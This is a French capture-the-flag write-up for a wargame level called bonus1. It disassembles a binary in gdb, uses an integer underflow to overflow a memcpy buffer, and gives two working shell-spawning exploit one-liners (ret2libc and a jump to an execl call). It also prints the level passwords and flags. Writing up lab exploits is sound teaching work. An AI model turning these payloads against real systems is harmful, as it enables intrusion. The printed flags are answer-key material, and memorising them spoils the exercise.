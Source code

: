 On se connecte sur le bonus1, ou se trouve un **binaire** <code>bonus1</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q bonus1
Reading symbols from /home/user/bonus1/bonus1...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   %ebp
   0x08048425 <+1>:     mov    %esp,%ebp
   0x08048427 <+3>:     and    $0xfffffff0,%esp
   0x0804842a <+6>:     sub    $0x40,%esp
   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:    mov    0xc(%ebp),%eax
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:   movl   $0x8048583,(%esp)
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    $0x0,%eax
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

Après analyse du fichier (**source.c**), on se rend compte que l'exploitation du fichier se fera par la fonction **memcpy**.  
On remarque qu'il y a une condition précisant que n doit être inférieur a 10, mais on souhaite faire overflow **memcpy** avec notre (n * 4), en sachant que notre buffer est de 40 et que notre ret2libc fait 12 bytes, on a donc besoin de minimum 52/4. On cherche donc un nombre négatif qui en underflow donne au moins 13.

```c
#include <limits.h>

int main(){
	int i;
	int res;

	i = -1;
	res = i * 4; 
	while(res < 0 || res > 68){
		i--;
		res = i * 4;
	}
	printf("res = %d\n", res);
	printf("i = %d\n", i);
}

> ./a.out
res = 68
i = -1073741807
```
On cherche l'offset : 

```gdb
(gdb) > b * 0x08048473
Breakpoint 1 at 0x8048473
(gdb) run -1073741799 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/bonus1/bonus1 -1073741799 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Breakpoint 1, 0x08048473 in main ()
(gdb) > ni
0x08048478 in main ()
(gdb) > i f
Stack level 0, frame at 0xbffff5e0:
 eip = 0x8048478 in main; saved eip 0x4f4f4f4f
 Arglist at 0xbffff5d8, args:
 Locals at 0xbffff5d8, Previous frame's sp is 0xbffff5e0
 Saved registers:
  ebp at 0xbffff5d8, eip at 0xbffff5dc
```
On voit que l'eip s'est fait override par les 4f, donc les O.
Donc notre offset est de 56.

A partir d'ici, nous avons plusieurs possibilités, soit un ret2libc, soit envoyer a l'adresse 0x08048482 qui va executer le **/bin/sh**.

# Première solution

<pre><code>> ./bonus1 -1073741807 $(python -c "print 'B' * 56 + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x83\x85\x04\x08'")
$ cd ../bonus2 && cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245</code></pre>

> Adresse de system : 0xb7e6b060
>
> Adresse de exit : 0xb7e5ebe0
>
> Adresse de /bin/sh : 0x08048583

# Deuxième solution

<pre><code>
./bonus1 -1073741807 $(python -c "print 'B' * 56 + '\x82\x84\x04\x08'")
$ cd ../bonus2 && cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
</code></pre>


For download :
<pre><code>scp -P4242 bonus1@192.168.1.78:bonus1 .</code></pre>
> Password : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

